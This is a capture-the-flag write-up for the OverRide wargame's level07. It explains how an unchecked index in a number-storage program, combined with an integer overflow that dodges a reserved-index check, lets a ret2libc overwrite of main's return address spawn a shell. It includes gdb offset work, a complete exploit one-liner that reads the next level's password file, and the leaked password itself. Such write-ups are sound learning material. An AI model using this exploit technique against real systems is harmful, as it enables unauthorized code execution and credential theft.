 ## Brief

This program prompt us with a command in order to do some operations on a buffer.
We can either `read` the buffer, `write` inside or `quit` the program.
Whenever writing or reading we are prompted with an index and a valut for the `write` function.
The thing is that there little to no protection on where we want to write or read and that's where we can exploit the binary.

## Exploit

Since we can write past the end of the buffer we can overwrite the return address of the main function and do a ret2libc attack.
To do so we first need to determine where is located the return address of the main function relatively to our buffer.

Using gdb we first see that the address of the buffer where we write into is at `0x24(%esp)`

```bash
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
```

Which is `0xffffd554`.

```bash
(gdb) x $esp + 0x24
0xffffd554:     0x00000000
```

Now we need to find where is the return address which is at `$ebp + 0x4`.

```bash
(gdb) x $ebp + 0x4
0xffffd71c:     0xf7e45513
```

Main old `eip` is at `0xffffd71c`.

Now we can compute the index to provide to the `store` function in order to overwrite the return address.
`0xffffd71c - 0xffffd554 = 0x1c8 = 456`. So the old `eip` of main is 456 byte away from our buffer.
We still need to devide it by 4 since it's an int buffer since an int is 4 bytes wide.
So the index `114` will effectively overwrite the return address of main which is `456` bytes away.

We now face a problem because the index 114 is protected in the code, every index that are a multiple of 3 are reserved.
To bypass this protection we use the fact that the the index we provide is multiplied by 4 in order to get the correct offset in the buffer.
We want to access index 114.
`UINT_MAX = 2^32`
So `UINT_MAX / 4 + 114 = 1073741938` will overflow to `114`.
And `1073741938 % 3 = 1` which is perfect.

We just need to put:
`0xf7e6aed0 = 4159090384` at index `114` which is the address of the `system` function.
`0xf7f897ec = 4160264172` at index `116` which is the address of `/bin/bash` string inside the libc.

## Commands
 
```bash
(python -c "print('store\n' + '4159090384\n' + '1073741938\n' + 'store\n' + '4160264172\n' + '116\n' + 'quit\n')"; echo 'cat /home/users/level08/.pass')| ./level07
```

Which is the equivalent of doing:

```bash
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
